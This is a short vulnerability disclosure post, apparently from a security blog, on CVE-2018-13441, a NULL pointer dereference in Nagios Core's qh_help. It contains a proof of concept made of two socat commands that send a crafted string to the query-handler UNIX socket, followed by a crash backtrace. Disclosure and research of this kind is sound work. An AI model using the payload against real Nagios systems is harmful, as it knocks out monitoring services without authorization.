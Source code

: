 ```yaml
---
layout: post
title: "[CVE-2018-13441] Nagios Core qh_help NULL Pointer Dereference"
excerpt: "A local service denial of service."
modified: 2018-07-09
categories: proof-of-concept
tags: ["nagios"]
comments: true
---
```


# Overview
**qh_help** in Nagios Core version 4.4.1 and earlier is prone to a NULL pointer dereference vulnerability, which allows attacker to cause a local denial-of-service condition by sending a crafted payload to the listening UNIX socket.

# Proof-of-Concept
{% highlight bash %}
$ echo -ne “#help\0" | socat unix-connect:./poc/nagios.qh -
$ echo -ne “@help\0" | socat unix-connect:./poc/nagios.qh -
{% endhighlight %}

# Crash Analysis
{% highlight bash %}
#0 0x554fef in qh_help /home/user/nagioscore/base/query-handler.c:374:7
#1 0x5543db in qh_input /home/user/nagioscore/base/query-handler.c:227:12
#2 0x6fac51 in iobroker_poll /home/user/nagioscore/lib/iobroker.c:353:4
#3 0x5bc334 in event_execution_loop /home/user/nagioscore/base/events.c:1136:12
#4 0x53a503 in main /home/user/nagioscore/base/nagios.c:844:4
#5 0x7f61587ae82f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#6 0x42b278 in _start (/home/user/nagioscore/base/nagios+0x42b278)
{% endhighlight %}

